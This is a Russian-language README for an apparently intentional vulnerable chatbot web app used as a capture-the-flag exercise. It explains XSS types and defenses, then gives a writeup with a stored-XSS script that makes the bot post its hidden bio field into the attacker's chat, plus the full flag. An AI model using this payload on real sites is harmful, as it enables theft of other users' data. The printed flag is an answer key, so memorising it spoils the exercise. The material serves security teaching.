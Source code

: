 # ChatBot
## XSS
Межсайтовый скриптинг (также известный как XSS) — это уязвимость веб-безопасности, которая позволяет злоумышленнику скомпрометировать взаимодействие пользователей с уязвимым приложением. Она позволяет злоумышленнику обойти политику одного и того же источника, которая предназначена для разделения различных веб-сайтов друг от друга. Уязвимости межсайтового скриптинга обычно позволяют злоумышленнику маскироваться под пользователя-жертву, выполнять любые действия, которые может выполнять пользователь, и получать доступ к любым данным пользователя. Если пользователь-жертва имеет привилегированный доступ в приложении, то злоумышленник может получить полный контроль над всеми функциями и данными приложения.

### Существует несколько типов XSS атак:
* **Отраженный XSS**. Он возникает, когда приложение получает данные в HTTP-запросе и включает эти данные в немедленный ответ небезопасным способом.
* **Хранимый XSS**. Он возникает, когда приложение получает данные из ненадежного источника и включает эти данные в свои последующие HTTP-ответы небезопасным способом.
* **DOM XSS**. Он возникает, когда приложение содержит некоторый клиентский JavaScript, который обрабатывает данные из ненадежного источника небезопасным способом, обычно путем записи данных обратно в DOM.

## Способы защиты от XSS
* Кодирование данных на выходе. Кодирование должно применяться непосредственно перед записью контролируемых пользователем данных на страницу, поскольку контекст, в который вы пишете, определяет, какой тип кодирования вам нужно использовать. Например, значения внутри строки JavaScript требуют другого типа экранирования, чем в контексте HTML. Как пример существует следующие преобразование: < преобразуется в &lt; > преобразуется в &gt;

* Проверка данных на входе. Проверка ввода пользователем корректных данных. Как пример, если на входе ожидается только числовое значение, то получение нечисловых вводных данных должны отбрасываться

## Запуск
Чтобы запустить приложение надо из корня репозитория активировать команду `docker compose up -d`

## Описание приложения
В данном приложении входной точкой является страница регистрации и входа. Внутри аккаунта нас встречает окно с информацией о себе и большое окно с чатом, где мы можем писать боту. Если попробуем отправить сообщение с тегами script, как например <script>alert(1)</script>, то получим, что при перезагрузке страницы у нас отрабатывает данный скрипт и выводит сверху окно со значением 1. Отсюда делаем вывод, что защиты от XSS здесь нет и можно попробовать реализовать данную атаку.
Также для очистки чата можно отправить сообщение `/clear`

## Writeup
1. Создадим аккаунт во все поле запишем qwe. Изучим внутреннюю составляющую страницы аккаунта. Видим, что есть поле Bio. Можно предположить, что в этом поле у бота спрятан флаг в аккаунте, поэтому попробуем достать именно этот участок страницы.
2. Поработав немного с js кодом, понимаем, что данную часть можно достать при помощи следующей команды: `document.getElementById(“bio”).textContent`
3. Теперь надо посмотреть, как отправляются запросы с сообщением. Видим, что заполняется форма со следующими полями: id=”message”, которое является полем для самого сообщения и id="user", которое позволяет боту определять в какой чат надо отправлять сообщение. Данное поле используется ботом
4. Тогда попробуем реализовать форму отправки методом GET. 
```
<script>
window.onload = function() { 
var a = document.getElementById("message"); 
a.value = document.getElementById("bio").textContent; 
var b = document.getElementById("user"); 
b.value = "qwe"; 
document.forms[1].submit(); 
};
</script>
```
5. Это заставит бота отправить форму на сервер с значением поля bio. И когда перезагружаем страницу, получаем флаг `practice{lIvE_as_if_yoU_wErE_7o_D1e_T0moRrOw_h@CK_4s_if_You_wER3_7O_Live_foRever}`
